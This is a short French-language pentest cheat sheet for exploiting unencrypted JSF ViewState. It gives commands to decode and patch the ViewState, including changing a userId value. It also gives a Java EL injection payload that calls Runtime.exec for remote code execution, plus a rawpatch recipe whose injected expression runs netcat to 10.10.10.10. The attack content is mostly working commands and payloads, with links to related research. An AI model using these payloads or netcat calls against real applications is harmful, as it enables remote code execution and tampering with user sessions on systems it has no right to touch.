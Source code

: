 #JSF Viewstate

For trainings : https://www.slideshare.net/frohoff1/appseccali-2015-marshalling-pickles

Si la viewstate n'est pas chiffrée, et est interprêtée côté client. Il est possible de la décoder pour récupérer des informations. En plus de cela, il est possible de la patcher afin de modifier les valeurs des variables ou bien même réaliser de l'exécution de code.

## ## Decode

```
$ ./inyourface.sh viewstate.txt > decoded.txt
```

## ## Patching de la viewstate

```
$ ./inyourface.sh -patch 0x7e0040 userId 0 -outfile /tmp/patched.txt /tmp/viewstate.txt
```

Pour faire de la RCE chercher les : **org.apache.el.ValueExpressionImpl**

Exemple de payload à injecter: 

```
#{request.getClass().getClassLoader().loadClass(‘java.lang.
Runtime’).getDeclaredMethods()[6].invoke(null).exec(‘<cmd>’)
```

```
./inyourface.sh -rawpatch 441 465 /tmp/payload.txt -outfile /tmp/patched.txt /tmp/viewstate.txt
```

## Méthodologie pour rawpatch

```
$ echo -ne '\x4d\x00\x42\x23\x7b\x21\x73\x65\x73\x73\x69\x6f\x6e\x55\x74\x69\x6c\x69\x73\x61\x74\x65\x75\x72\x42\x65\x61\x6e\x2e\x69\x73\x50\x52\x4f\x20\x61\x6e\x64\x20\x21\x73\x65\x73\x73\x69\x6f\x6e\x55\x74\x69\x6c\x69\x73\x61\x74\x65\x75\x72\x42\x65\x61\x6e\x2e\x69\x73\x50\x41\x52\x7d\x00\x07\x62\x6f\x6f\x6c\x65\x61\x6e' > /tmp/blockdata.bin
```

```
./patch_blockdata.py "#{\!sessionUtilisateurBean.isPRO and \!sessionUtilisateurBean.isPAR}" "#{request.getClass().getClassLoader().loadClass('java.lang.Runtime').getDeclaredMethods()[6].invoke(null).exec('nc 10.10.10.10 8000')}" blockdata.bin blockdata-patched.bin
```

```
$ ./inyourface.sh -rawpatch 4109 4187 /tmp/blockdata-patched.bin -outfile /tmp/viewstate-patched.txt /tmp/viewstate.txt
```

## Liens

https://www.synacktiv.com/ressources/MISC69_pentest_JSF.pdf

Un grand merci à Renaud Dubourguais et Nicolas Collignon pour leur outils et aide de déboggage.